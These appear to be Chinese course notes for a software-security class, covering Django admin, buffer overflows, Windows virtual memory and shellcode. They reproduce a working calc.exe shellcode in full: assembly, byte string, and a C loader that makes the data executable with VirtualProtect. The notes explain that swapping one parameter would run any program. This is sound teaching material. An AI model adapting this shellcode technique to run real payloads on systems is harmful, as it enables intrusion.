    class_name = models.CharField(verbose_name="班级", max_length=100, blank=True, null=True)
    name = models.CharField(verbose_name="姓名", max_length=100, blank=True, null=True)
    number = models.IntegerField(verbose_name="学号", default=0)
    phone_number = models.CharField(verbose_name='手机号', max_length=11,null=True)

class Score(models.Model):
    course = models.ForeignKey(Course, verbose_name='课程', on_delete=models.CASCADE, related_name='students')
    student = models.ForeignKey(Student, verbose_name='学生', on_delete=models.CASCADE, related_name='my_courses')
    score = models.FloatField(verbose_name='成绩',  null=True)
```

Student继承了AbstractUser后，告诉Django用Student作为系统用户管理的数据库模型

在mysite settings.py也就是整个站点的配置文件中，增加一条：`AUTH_USER_MODEL = 'edu_admin.Student'`，即告诉Django，使用 edu_admin 的Student作为用户管理登录授权的模型

代码修改完以后，由于涉及到数据库修改，所以要进行数据库表结构的migrate，前一步生成迁移文件，后一步实施迁移，迁移过程中，可能会要求输入一些默认值，选择1，而后全部都输入为空字符串就可以' '。执行结果如下所示


## 测试Django数据库访问是否正常

最原始的方法就是在sqlite.exe 中用sql语句插入。但是这个方法容易把数据搞乱了，而且比如用户密码这样的东西，不是明文保存的，所有插入会有问题

用Django的方式，先建立一个超级用户，执行`python manage.py createsuperuser`
- 建立一个管理员账户，用sqlite3.exe可以看到Student表多了一条记录
- 然后我们可以用Django的admin功能，用超级管理员录入数据。Django的admin相当于一个数据管理的超级权限后台，可以直接操作数据库
- 在edu_admin/admin.py中录入以下内容，这样直接就可以生成一个管理数据库的后台页面
    ```python
    from django.contrib import admin

    # Register your models here.
    from .models import Student, Course, Score

    class ScoreAdmin(admin.ModelAdmin):
        list_display = ('course', 'score','student')

    admin.site.register(Student)
    admin.site.register(Course)
    admin.site.register(Score, ScoreAdmin)
    ```
- 访问 http://127.0.0.1:8000/admin/ ，登录后看到这个页面
  
  

- 该页面上可以录入一些课程，学生，和成绩了。录入成绩前，先录入学生和课程。录入以后，在数据用sql也能查询到
  
  

  - 本身createsuperuser时的admin也是一个学生

  出现外键错误的解决方法：删掉同目录的数据库文件 db.sqlite3，重新进行一次makemigration和migrate，再创建超级用户

  

  同时数据库中也可以查询到

  

- 为了在admin管理的时候，直接显示课程名称，可以给course模型增加一个 __str__方法。这样所有course对象的str ，返回的是name字段。界面显示就是课程名称了
  
  

- 当数据库有了值以后，就可以在view中验证查询自己成绩的功能是否正常了。views中的`@login_required`表示需要登录，我们这里已经用超级管理员登录了，所以是可以访问的。
- `return render(request, 'score.html',{'result': result})`，其中render函数是一个Django内置的函数，用于在模板文件的基础上，通过渲染得到动态的网页效果。其中 score.html 是模板，后面的{} dict是参数，render必须传参reqeust。然后render函数就会在模板html文件的基础上，生成一个html并返回 HTTPResponse，所以可以直接作为 views函数的返回

## 编写score.html

在 templates目录下
  


```
<html>
<body>

科目：{{ i.course.name }}
成绩：{{ i.score }}
<br>

</body>
</html>
```

这里的result 就是 render传入的result。对每一个result 显示其课程名和分数。大家看到这里的多表查询 (course表中的name）直接.就调用出来了。模板语言的语法 {{ 变量名 }}

注意，写了新的views函数，需要在`views.py`下增加url，如下所示


这就完成了当前登录用户（超级管理员 admin 同学）的成绩查询。注意，这里我们偷了一个懒，实际情况，并不是每个用户都是超级管理员。需要有普通用户登录注册页面。这个页面需要自己写，我们这里时间关系，先不实现普通用户的登录，先用超级管理员用户验证一下查询功能。实际情况下普通用户 是不能访问 127.0.0.1:8000/admin页面的。


</details>

---

<details>
<summary>2020-4-8 SQL注入[课内实验sql注入] + 缓冲区溢出 + 内存管理[作业：虚拟内存管理的学习] </summary>

# [SQL注入的实现](./hw-0x03-sql%20Injection/README.md)

# 缓冲区溢出漏洞

在使用C、C++编写的原生应用程序中，CPU在执行时会有一个栈的结构。这个栈的结构是程序执行过程中，与程序当前运行的所处的位置密切相关的。

因此程序基本的组织单元是函数，函数的调用、返回等等是基本的操作。一个大型的程序，会形成一个函数调用关系图。

栈，实际上是CPU用来记录当前执行到哪个函数的这个一个数据结构。所以每次函数调用会入栈一些东西，函数调用返回会出栈一些东西。由于栈和函数的这种一一对应，所以在设计的时候，直接把与函数密切相关的局部变量和参数也顺便保存在了栈中。

如果局部变量的写入超过了预先分配的长度，就会覆盖其他数据。栈中的数据有与执行流程相关的，例如函数执行返回地址等。如果覆盖，就会造成执行流程的异常。

# 内存管理

> 几乎所有的**二进制安全漏洞**，必然和内存有关系
> 漏洞的攻防是和内存密切相关的

## 内存相关问题

- 为什么一段内存不可读
- 为什么有不可访问的内存地址
- 为什么有的时候会有执行异常

## 软件安全和漏洞挖掘基础能力

- [x] 以4KB（页）作为基本管理单元的虚拟内存管理
- 虚拟内存管理是一套虚拟地址和物理地址对应的机制
- 程序访问的内存都是虚拟内存地址，由CPU自动根据系统内核区中的地址对应关系表（分页表）来进行虚拟内存和物理内存地址的对应。
- 每个进程都有一个分页表
- 每个进程都有一个完整的虚拟内存地址空间，x86情况下为4GB（0x00000000-0xffffffff）
- 但不是每个地址都可以使用（虚拟内存地址没有对应的物理内存）
- 使用VirtualAlloc API可以分配虚拟内存（以页为单位）、使用VirtualFree释放内存分页
- [x] 使用VirtualProtect 修改内存也保护属性（可读可写可执行）
- 数据执行保护（DEP）的基本原理
- malloc和free等C函数（也包括HeapAlloc和HeapFree等）管理的是堆内存，堆内存区只是全部内存区的一个部分
- 堆内存管理是建立在虚拟内存管理的机制上的二次分配
- 真正的地址有效还是无效是以分页为单位的
- 内存分页可以直接映射到磁盘文件（FileMapping）、系统内核有内存分页是映射物理内存还是映射磁盘文件的内存交换机制
- 完成内存分页管理的相关实验

## 虚拟内存基本管理单元

执行下面一段错误代码：该代码分配了100个字节的内存单位，写入的时候超出两个字节。但代码执行不会有异常情况，程序能够正常退出。
```
#include<stdio.h>
#include<malloc.h>
int main()
{
    char* a = (char*)malloc(100*sizeof(char));
    a[101] = 'a';
}
```
能够正常退出的原因：操作系统对内存的管理有开销。
- 系统本身需要在一块单独的系统内存中记录哪些内存是可用的，哪些内存是不可用的。如果记录内存是否可用这个信息太细，那么记录所有的内存开销就很高。比如，如果我们记录详细到每一个bit是否可用。如果系统的内存有1GB，记录内存是否可用的内存也需要1GB，则开销有点太大了。
- 在Windows系统中，通常是以4KB为单位进行管理的：要么这4KB都可用，要么都不可用，这样所需要的管理数据就小得多。类比学校管理学生需要通过组织班级

malloc还不是最底层的内存管理方式，malloc称为堆内存管理。malloc可以分配任意大小的数据，但是malloc并不管理一块数据是否有效的问题。

管理一块数据是否有效是由更底层的[虚拟内存管理](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)进行的
- 一个4KB的内存管理单元，称为一个内存分页。分页，每个页的大小是4KB，第一级页表（即页目录）它有1K个表项，1K*4KB=4MB是页目录的大小
- 当malloc在内存分配时，如果已经可用的分页中还有剩余的空间足够用，那么malloc就在这个可用的分页中拿出需要的内存空间并且返回地址。如果已经可用的分页不够用，再去分配新的分页，然后返回可用的地址。所以malloc分配可以比较灵活，但是在系统内部不会把内存搞得特别细碎，都是分块的。
  
任务管理器：切换到详细信息页面，看看每个进程的内存占用，都是4KB的倍数
  
  

以上实验证明了，系统确实以4KB作为单元在管理内存，要么4KB全部有效，要么全部无效。虽然我们只分配了100个字节，但是这100个字节所在的整个4KB的内存全部是可用的

## 内存的访问属性

每个4KB的内存分页，其实有三个属性，[可读可写可执行](https://docs.microsoft.com/zh-cn/windows/win32/memory/memory-protection-constants)，即表示可以分配一块readonly的内存

虚拟内管管理，系统也提供了一些的函数来让应用程序可以自己管理
- 修改改变一块内存的访问属性，用VirtualProtect函数
- 分配内存是用 VirtualAlloc
- 释放使用VirtualFree
- 只要是VirtualAlloc分配的内存，就可以使用
- VirtualAlloc甚至可以指定希望将内存分配在哪个地址上

malloc函数底层也会调用VirtualAlloc函数。当没有足够的整页的的内存可用时，malloc会调用VirtualAlloc。所以实际的内存分配，没有那么频繁。

## 实验

1. 阅读VirtualAlloc、VirtualFree、VirtualProtect等函数的官方文档
2. 编程使用malloc分配一段内存，测试是否这段内存所在的整个4KB都可以写入读取
3. 使用VirtualAlloc分配一段，可读可写的内存，写入内存，然后将这段内存改为只读，再读数据和写数据，看是否会有异常情况。然后VirtualFree这段内存，再测试对这段内存的读写释放正常。

### [实验结果](./hw-0x04-Memory%20Management%20(Easy%20Version)/README.md)

## 参考资料

- https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect
- https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect
- https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualfree

</details>

--- 

<details>
<summary>2020-4-15 内存管理 [作业：虚拟内存实验和windbg双机调试] </summary>

# 了解底层的操作系统级别的内存管理的原因

在溢出型漏洞攻击中，**内存地址的有效性**在漏洞利用程序的编写中是首要考虑的问题。

漏洞攻击的目的，要驻留在系统内，而不是引起系统的崩溃。

如果对内存访问不对，读写到了不可用的内存地址上。那么引起的效果是崩溃程序退出，那么攻击程序也就退出结束运行了。所以，攻击程序必须要考虑内存地址的有效性的。

学习了虚拟内存地址管理以后，能知道内存地址的有效性和访问属性，都是以4KB为单位的，是为了方便操作系统进行管理

我们平常所用的动态地址分配，malloc和free等，在操作系统层面，叫堆内存管理 Heap，是在虚拟内存之上的。首先是虚拟内存分页的分配释放管理，然后在分页之上进行堆块管理。其实堆块管理只是给应用程序提供的一个接口，不影响内存是否有效，还是虚拟内存在管理。

堆长度可变，指定任意长度都可以，堆块是使用双链表进行管理的。而虚拟内存分页，是使用一个定长的表就可以管理了。

# 虚拟内存管理

与虚拟内存对应的是物理内存。物理内存有一个金手指，就是很多导线，插入插槽的那一段。这些线，有的是用来传输地址的，有的是用来传输数据的。当计算机在地址线上设置对应的地址时，内存就在数据线上用高低电平来给出数据。这就是cpu操作数据的读，写入类似，其中地址是必需的。

物理内存通常只有一个，所以应该只有一套地址体系。但是操作系统同时在运行很多程序，这些程序都需要访问地址。如果只有一套地址体系，意味着只要去遍历一遍这个地址体系中的所有地址就可以把所有程序的所有的内存数据获取到了。如果一个应用程序的开发人员稍有不慎，会引起整个系统的崩溃。而应用程序的开发人员，千千万万，水平参差不齐。

所以系统必须设计一种机制，让一个应用程序的错误，只影响这个应用程序；也必须设计一种机制，让一个应用程序不能随意访问其他应用程序的内存。

还有另外一个更严重的问题。大家共享一个地址空间，如何能做到你的数据不覆盖我的数据呢？如果某个程序要用地址A，另外一个程序也非得用地址A呢？就会引起非常麻烦的问题。

做exe编译的时候有一个基地址的概念。所谓基地址，就是这个exe文件在运行的时候，它的exe文件会被放到内存的那个地址上。为什么基地址要固定，而不是动态呢？因为只有基地址确定了以后，程序内部的很多其他的数据或者程序跳转的地址才能确定。而这个地址的确定，是在程序运行之前，在编译链接的时候就确定了。

如何保证每个应用程序都能使用到自己想要的地址？而且，同一个exe不是可以运行很多次吗？每个的基地址不都一样吗？那么相互之间不会冲突吗。实验：写两个不同的exe，在vs中设置属性，让他们的基地址一样。比如0x4000000。然后同时运行这两个文件。可以用调试器看这两个程序确实都是占用了0x4000000的地址。

这些问题的解决，就是因为**虚拟地址**。我们的应用程序，我们所有编写的exe文件，所有使用的地址，都不是物理地址，而是**一套虚拟地址系统**。这个机制在Linux中同样有效。

## 实现虚拟内存管理

**分页映射**

在OS的内核中，有一个非常重要的数据结构，称为分页表。这个分页表记录了每个分页地址是否可用的，还记录了这一块分页，对应的是哪一个物理内存。他们以4KB单位对应。

在真正的数据访问的过程中，每次访问系统都会去查分页表，把访问的虚拟地址，在分页表中表项的记录中找到**这一块虚拟地址分页对应的物理地址分页**。分页内部的偏移不会变，而且每一个进程都有一个分页表。

### 相同的分页地址对应到不同的物理内存

可以把不同的进程的相同分页，对应到**不同的物理地址**上。所以进程A在访问地址0x4000000的时候和进程B在访问同样的地址0x4000000的时候，对应的是不同的物理地址。

在32位系统中，地址空间从0x00000000-0xFFFFFFFF，一共4GB。则一个进程最多可以有4GB的内存可用。但是我们的物理内存并没有那么多，往往一个进程也使用不了4GB这么大的数据。所以，系统是**只有进程需要使用**，才把内存分页的地址对应到物理地址上。如果没有使用，不会白白占用物理地址。

这也解释了，为什么有的地址有效，有地地址无效，为什么有效和无效都是以4KB为单位的，要么同时有效，有么同时无效。就是因为没有把这一块地址对应到一个真实存在的物理地址上。在编写操作系统内核的时候，有直接访问物理地址的情况，而物理地址不存在有效和无效的问题了，因为一定都是有效的，它直接对应物理内存。

### 相同的分页地址映射到相同的物理内存

进程的相同地址的分页可以映射到不同的物理地址上。同样也能映射到相同的物理内存上。比如动态链接库，每个进程都会调用基础的动态链接库，但是需要在每个进程的地址空间中放置一份吗？不用，只需要把分页表中项对应过来就好了，让虚拟内存分页对应到已经存在的物理内存分页中。这既是为什么有的时候启动的进程比较慢，再启动就比较快了。
  
使用虚拟地址的这种分页的方式，虽然有地址翻译和映射的过程，但是效率更高。因为对于用量很大的底层库等实际是共享的。这也是为什么 Linux系统中动态链接库是.so(shared object)后缀名。

## [intel程序开发手册](https://software.intel.com/sites/default/files/managed/39/c5/325462-sdm-vol-1-2abcd-3abcd.pdf)

相关内容在卷1的3.3、卷3的第4章。有需要的时候查一查。但是这本书主要是给开发操作系统的人员准备的。

可靠性的检验，一靠测试，二靠分析。不过我们学软件安全时不时的也会用到。因为需要从软件的机制上进行详细的了解，深入到底层，才能知道安全不安全。

[VirtualAlloc函数](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)


分配，就是以分页的大小为单位的。返回地址，是分页的基地址，是分页大小的整数倍。分页大小有两种：4KB和4MB，但是一般都是4KB，是默认设置。

分页交换swap：有时，各个进程所使用的总内存会超过物理内存的总大小。这种情况下，部分分页会被**缓存到硬盘**上。但是缓存到硬盘上的内存分页数据在使用的时候，又需要载入到物理内存。

所以，有的时候，跑大型的程序，内存占用很多，超过了物理内存大小，这时候程序仍然能运行，但是变得很慢。就因为系统在不停的进行分页交换，而硬盘的访问比内存的速度差了1-2个数量级。

## 作业：

1. 验证不同进程的相同的地址可以保存不同的数据。
   (1) 在VS中，设置固定基地址，编写两个不同可执行文件。同时运行这两个文件。然后使用调试器附加到两个程序的进程，查看内存，看两个程序是否使用了相同的内存地址；
   (2) 在不同的进程中，尝试使用VirtualAlloc分配一块相同地址的内存，写入不同的数据。再读出。
2. (难度较高)配置一个Windbg双机内核调试环境，查阅Windbg的文档，了解
   (1) Windbg如何在内核调试情况下看物理内存，也就是通过物理地址访问内存
   (2) 如何查看进程的虚拟内存分页表，在分页表中找到物理内存和虚拟内存的对应关系。然后通过Windbg的物理内存查看方式和虚拟内存的查看方式，看同一块物理内存中的数据情况。

注：

第二个作业难度比较大。首先需要搭建Windbg的内核调试环境。由于我们直接调试的操作系统内核，所以需要两台计算机安装两个Windows，然后两个计算机使用串口进行连接。

需要再虚拟机中安装一个Windows（安装镜像自己找，XP就可以），然后通过虚拟串口和host pipe链接的方式，让被调试系统和windbg链接，windbg可以调试。

如果决定Windows虚拟机太重量级了，可以用Linux虚拟机+gdb也能进行相关的实验，以gdb远程内核调试为关键字搜索，也能找到很多教程。

### [实验结果](./hw-0x05-Memory%20Management%20(Hard%20version)/README.md)

### 参考资料

- [windbg遍历进程页表查看内存-虚拟机win7 32](https://www.cnblogs.com/ck1020/p/6148399.html)
- [windbg下看系统非分页内存-xp sp3](https://blog.csdn.net/lixiangminghate/article/details/54667694)
- [windbg下看系统非分页内存-xp sp3](https://blog.csdn.net/lixiangminghate/article/details/54667694)
- [使用WinDbg查看保护模式分页机制下的物理地址 - win7 x86 sp1](https://blog.csdn.net/weixin_42486644/article/details/80747462)
- [软件安全4.内存布局](https://www.jianshu.com/p/09fab7c07533)
- [Windows 内核调试](https://zhuanlan.zhihu.com/p/47771088)
- https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/-pte
- https://reverseengineering.stackexchange.com/questions/21031/windbg-what-is-the-relation-between-the-vad-vad-the-ptes-pte-and-loade
- https://stackoverflow.com/questions/16749764/when-kernel-debugging-find-the-page-protection-of-a-user-mode-address

</details>

---

<details>
<summary>2020-4-22 shellcode [作业：shellcode学习以及实现文件下载并执行]</summary>

# [shellcode](https://www.exploit-db.com/shellcodes)

## 栈溢出漏洞

栈溢出漏洞，当向栈中的局部变量拷贝了超长的数据，覆盖了在局部变量的内存空间之后的**函数返回地址**

当函数返回的时候就会**跳转到覆盖后新的地址**，跳转到新的地址后，这一段新的地址的数据，如果是可执行的一段代码，那么这段代码就会被执行。攻击者通过这段代码来实现攻击之后的控制等功能

早期，黑客在攻击了一个系统以后，最常使用的控制方式是创建一个远程的shell，可以远程通过命令的方式控制目标计算机，就像ssh远程控制计算机一样。不过ssh是管理员主动开启的，黑客攻击后的shellcode是通过漏洞非法入侵后开启的

由于早期的黑客攻击后通常是开启一个shell，所以这段在缓存区溢出以后跳转执行的一段代码，就被称为shellcode。现在shellcode的功能已经很多，千奇百怪。但是总体目的还是对远程的目标计算机进行控制

[shellcode大集合](https://www.exploit-db.com/shellcodes)
- 各个平台，能够实现很多不同的功能，比如有增加一个用户，关闭防火墙等等
  
  

- [运行一个计算器程序](https://www.exploit-db.com/shellcodes/48116)，这个是白帽子黑客们在编写PoC(概念验证)时最常使用的一种方法
- 如果能证明系统被控制，能悄无声息的运行计算机程序，理论上来说就能运行**任何程序**(改一个参数的事)
  
## shellcode开发

shellcode的编写不同于我们之前学过的所有的程序开发，它有一些自己独门的技巧。但是shellcode的开发又是每个软件安全的学习者必学的内容，是我们的重点之一

## 详细解读计算器shellcode

[Windows/x86 - Null-Free WinExec Calc.exe Shellcode (195 bytes)](https://www.exploit-db.com/shellcodes/48116)

```
# Title:  Windows\x86 - Null-Free WinExec Calc.exe Shellcode (195 bytes)
# Shellcode Author: Bobby Cooke
# Date: 2020-02-21
# Technique: PEB & Export Directory Table
# Tested On: Windows 10 Pro (x86) 10.0.18363 Build 18363

_start:
; Create a new stack frame
 mov ebp, esp            ; Set base stack pointer for new stack-frame
 sub esp, 0x20           ; Decrement the stack by 32 bytes

; Find kernel32.dll base address
 xor ebx, ebx            ; EBX = 0x00000000
 mov ebx, [fs:ebx+0x30]  ; EBX = Address_of_PEB
 mov ebx, [ebx+0xC]      ; EBX = Address_of_LDR
 mov ebx, [ebx+0x1C]     ; EBX = 1st entry in InitOrderModuleList / ntdll.dll
 mov ebx, [ebx]          ; EBX = 2nd entry in InitOrderModuleList / kernelbase.dll
 mov ebx, [ebx]          ; EBX = 3rd entry in InitOrderModuleList / kernel32.dll
 mov eax, [ebx+0x8]      ; EAX = &kernel32.dll / Address of kernel32.dll
 mov [ebp-0x4], eax      ; [EBP-0x04] = &kernel32.dll

; Find the address of the WinExec Symbol within kernel32.dll
; + The hex values will change with different versions of Windows

; Find the address of the Export Table within kernel32.dll
 mov ebx, [eax+0x3C]     ; EBX = Offset NewEXEHeader  = 0xF8
 add ebx, eax            ; EBX = &NewEXEHeader        = 0xF8 + &kernel32.dll
 mov ebx, [ebx+0x78]     ; EBX = RVA ExportTable      = 0x777B0 = [&NewExeHeader + 0x78]
 add ebx, eax            ; EBX = &ExportTable         = RVA ExportTable + &kernel32.dll

; Find the address of the Name Pointer Table within kernel32.dll
; + Contains pointers to strings of function names - 4-byte/dword entries
 mov edi, [ebx+0x20]     ; EDI = RVA NamePointerTable = 0x790E0
 add edi, eax            ; EDI = &NamePointerTable    = 0x790E0 + &kernel32.dll
 mov [ebp-0x8], edi      ; save &NamePointerTable to stack frame

; Find the address of the Ordinal Table
;   - 2-byte/word entries
 mov ecx, [ebx+0x24]     ; ECX = RVA OrdinalTable     = 0x7A9E8
 add ecx, eax            ; ECX = &OrdinalTable        = 0x7A9E8 + &kernel32.dll
 mov [ebp-0xC], ecx      ; save &OrdinalTable to stack-frame

; Find the address of the Address Table
 mov edx, [ebx+0x1C]     ; EDX = RVA AddressTable     = 0x777CC
 add edx, eax            ; EDX = &AddressTable        = 0x777CC + &kernel32.dll
 mov [ebp-0x10], edx     ; save &AddressTable to stack-frame

; Find Number of Functions within the Export Table of kernel32.dll
 mov edx, [ebx+0x14]     ; EDX = Number of Functions  = 0x642
 mov [ebp-0x14], edx     ; save value of Number of Functions to stack-frame

jmp short functions

findFunctionAddr:
; Initialize the Counter to prevent infinite loop
 xor eax, eax            ; EAX = Counter = 0
 mov edx, [ebp-0x14]     ; get value of Number of Functions from stack-frame
; Loop through the NamePointerTable and compare our Strings to the Name Strings of kernel32.dll
searchLoop:
 mov edi, [ebp-0x8]      ; EDI = &NamePointerTable
 mov esi, [ebp+0x18]     ; ESI = Address of String for the Symbol we are searching for 
 xor ecx, ecx            ; ECX = 0x00000000
 cld                     ; clear direction flag - Process strings from left to right
 mov edi, [edi+eax*4]    ; EDI = RVA NameString      = [&NamePointerTable + (Counter * 4)]
 add edi, [ebp-0x4]      ; EDI = &NameString         = RVA NameString + &kernel32.dll
 add cx, 0x8             ; ECX = len("WinExec,0x00") = 8 = 7 char + 1 Null
 repe cmpsb              ; compare first 8 bytes of [&NameString] to "WinExec,0x00"
 jz found                ; If string at [&NameString] == "WinExec,0x00", then end loop
 inc eax                 ; else Counter ++
 cmp eax, edx            ; Does EAX == Number of Functions?
 jb searchLoop           ;   If EAX != Number of Functions, then restart the loop

found:
; Find the address of WinExec by using the last value of the Counter
 mov ecx, [ebp-0xC]      ; ECX = &OrdinalTable
 mov edx, [ebp-0x10]     ; EDX = &AddressTable
 mov ax,  [ecx + eax*2]  ;  AX = ordinalNumber   = [&OrdinalTable + (Counter*2)]
 mov eax, [edx + eax*4]  ; EAX = RVA WinExec     = [&AddressTable + ordinalNumber]
 add eax, [ebp-0x4]      ; EAX = &WinExec        = RVA WinExec + &kernel32.dll
 ret

functions:
; Create string 'WinExec\x00' on the stack and save its address to the stack-frame
 mov edx, 0x63657878     ; "cexx"
 shr edx, 8              ; Shifts edx register to the right 8 bits
 push edx                ; "\x00,cex"
 push 0x456E6957         ; EniW : 456E6957
 mov [ebp+0x18], esp     ; save address of string 'WinExec\x00' to the stack-frame
 call findFunctionAddr   ; After Return EAX will = &WinExec

; Call WinExec( CmdLine, ShowState );
;   CmdLine   = "calc.exe"
;   ShowState = 0x00000001 = SW_SHOWNORMAL - displays a window
 xor ecx, ecx          ; clear eax register
 push ecx              ; string terminator 0x00 for "calc.exe" string
 push 0x6578652e       ; exe. : 6578652e
 push 0x636c6163       ; clac : 636c6163
 mov ebx, esp          ; save pointer to "calc.exe" string in eax
 inc ecx               ; uCmdShow SW_SHOWNORMAL = 0x00000001
 push ecx              ; uCmdShow  - push 0x1 to stack # 2nd argument
 push ebx              ; lpcmdLine - push string address stack # 1st argument
 call eax              ; Call the WinExec Function

; Create string 'ExitProcess\x00' on the stack and save its address to the stack-frame
 xor ecx, ecx          ; clear eax register
 mov ecx, 0x73736501     ; 73736501 = "sse",0x01 // "ExitProcess",0x0000 string
 shr ecx, 8              ; ecx = "ess",0x00 // shr shifts the register right 8 bits
 push ecx                ;  sse : 00737365
 push 0x636F7250         ; corP : 636F7250
 push 0x74697845         ; tixE : 74697845
 mov [ebp+0x18], esp     ; save address of string 'ExitProcess\x00' to stack-frame
 call findFunctionAddr   ; After Return EAX will = &ExitProcess

; Call ExitProcess(ExitCode)
 xor edx, edx
 push edx                ; ExitCode = 0
 call eax                ; ExitProcess(ExitCode)

; nasm -f win32 win32-WinExec_Calc-Exit.asm -o win32-WinExec_Calc-Exit.o
; for i in $(objdump -D win32-WinExec_Calc-Exit.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo

##################################################################################### 

#include <windows.h>
#include <stdio.h>

char code[] = \
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
"\x52\xff\xd0";

int main(int argc, char **argv)
{
  int (*func)();
  func = (int(*)()) code;
  (int)(*func)();
}
```

代码的前半段是汇编，其中汇编部分是源代码；到一排#######下面是一段C语言的代码

C语言中的 code 变量，是前面的汇编代码在编译以后的二进制程序：这一段就是可运行的shellcode。main函数为主函数，把code运行起来

code如何运行：这一段代码用到了一个较为高级的C语言语法 > **函数指针**
- 即定义了一个函数指针变量func。这个函数指针的变量类型是 int(*)()，表示返回值是int，参数列表为空的一个函数
- 在main函数的第二行，把全局变量 code 赋值给 func，并强制类型转换为 int(*)() 类型的函数指针
- 由于 func 所指向的地址，就是 code 的地址，所有调用 func 的时候，运行的就是 code 里面的二进制代码

### 运行代码

- 现在VS中建一个空工程，把###########后整个C语言部分复制到VS中的.c文件，编译，运行，调试查看，发现在 func 调用的时候会报访问冲突的错误

    

  - 0xC0000005 是Windows系统内部错误代码，表示内存访问异常，如当前访问了**一个未分配的内存地址**或者所访问的内存地址的**保护属性冲突**(如果内存的保护属性是 readonly ，但是写入会引起访问异常错误)
  - 下断点，单步执行，发现是在运行 `(int)(*func)()` 时出错的。这一行是调用 func 执行，而现在 func 是指向 code ，即 func 的值是 code 的内存地址，而 code 这段内存是一段已经分配的内存
  - 因为 code 是全局变量，在程序运行起来后就存在内存中，是进程的初始化过程就完成了内存分配，并由进程初始化程序从可执行文件中直接载入内存的。全局变量，肯定是有效地址，是可以访问的，所以不是当前访问了一个为分配的内存地址的引起的问题
  - 是内存分页的保护属性问题。和Linux里的文件类似，操作系统中的内存分页，也分为**读写执行**三种保护属性。由于 code 是全局变量，是数据，通常情况下，会给数据设置可读和可写的内存保护属性，但是一般不会给执行属性，如果要去执行它则会引发异常
    - 在 visual studio 调试窗口，右键，转到反汇编，F11单步步入执行，到达报错位置
        
        

        

    - 这里 00FD7000 就是 code 的第一个字节的位置
    - 修改代码：使用VirtualProtect修改内存保护属性

        ```
        int main(int argc, char** argv)
        {
            int (*func)();
            DWORD dwOldProtect;
            VirtualProtect(code, sizeof(code), PAGE_EXECUTE_READWRITE, &dwOldProtect);
            func = (int(*)()) code;
            (int)(*func)();
        }
        ```
        或者
        ```
        int main(int argc, char** argv)
        {
            int (*func)();
            DWORD dwOldProtect;
            func = (int(*)()) code;
            VirtualProtect(func, sizeof(code), PAGE_EXECUTE_READWRITE, &dwOldProtect);
            (int)(*func)();
        }
        ```

        - VirtualProtect 函数会把第一个参数 > func 或者 code ；所指向的内存地址的第二个参数 > sizeof(code)；第三个参数是将这段内存区域所在分页的内存属性修改为第三个参数的属性，PAGE_EXECUTE_READWRITE 表示这段内存，是可读可写可执行；通过第四个参数 dwOldProtect 保存老的保护方式
        - 运行后能够调起计算器

            

        - 单步调试，发现反汇编代码和 code 中的代码相同

            

        - code反汇编之后，就是汇编的源码。这段code，就是通过前面的汇编代码，编译以后直接从汇编编译以后，从可执行文件中 dump 出来的

            ```bash
            ; nasm -f win32 win32-WinExec_Calc-Exit.asm -o win32-WinExec_Calc-Exit.o
            ; for i in $(objdump -D win32-WinExec_Calc-Exit.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
            ```

            - nasm 汇编器编译为 .o文件，然后用objdump
            - 在bash或者Linux环境中运行一下这两个命令，能够得到code。由于编译器版本不一样， code 可能会略有区别
            - 把这之前的汇编代码保存为win32-WinExec_Calc-Exit.asm，然后在Linux下运行两条命令，得到的结果如下

                

### 解读shellcode代码

如果用C语言编写一个运行计算器的程序，其实很简单，只需要调用一下WinExec函数或者CreateProcess函数，如果用汇编来写，也就是几条指令的事，几个参数 push 入栈以后，call函数地址就能调用函数地址
  
**为什么这段代码写的这么复杂呢？**

#### 寻找调用的API函数

如果是在C语言中编写调用WinExec函数，call之后的WinExec函数的地址，是编译器在可执行程序的导入表中导入了(WinExec用来运行计算器程序)。在进程初始化的过程中，系统会帮我们计算好WinExec函数的地址，然后把函数地址放在导入表中指定的位置。

在shellcode中，有这个过程吗？我们最终是要把这代code嵌入到溢出攻击的数据中，而被攻击的目标对象没有动态链接的过程，也就是code这段代码如果要call WinExec，就要自己找WinExec的地址

shellcode进行**API函数的动态链接**(在一个进程初始化的过程中，操作系统在干的事情) > 找到需要调用的API函数的地址

能否用GetProcAddress函数，可以获得API函数的地址。GetProcAddress函数也是一个API，GetProcAddress函数的地址未知，如果能调用GetProcAddress函数，则WinExec也能调了 > 所以**任何 API 地址都没有**

shellcode进入到了一个完全陌生的环境。早期的黑客们思考能不能比较原始的办法，能够获得API地址
- 其实操作系统也有一个加载的过程，黑客们逆向分析了Windows系统的内部代码，分析了Windows系统内部管理进程初始化相关的数据结构，发现有一个链表，管理了所有的已经加载的dll文件
